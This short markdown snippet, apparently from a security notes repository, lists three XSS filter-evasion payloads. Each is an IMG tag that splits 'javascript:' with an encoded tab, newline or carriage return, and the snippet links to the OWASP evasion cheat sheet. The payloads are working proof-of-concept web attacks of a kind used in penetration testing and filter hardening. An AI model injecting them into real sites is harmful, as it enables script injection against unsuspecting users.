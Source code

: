 
## XSS with Filter Evasion
```html
<IMG SRC="jav&#x09;ascript:alert('XSS');">
```
```html
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
```
```html
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```

**XSS Filter Evasion Cheat Sheet**
- [OWASP XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

<img width="1116" height="348" alt="Screenshot From 2025-07-26 22-36-29" src="https://github.com/user-attachments/assets/39b890d4-b65a-47f4-8a0b-14208a1b5342" />

---
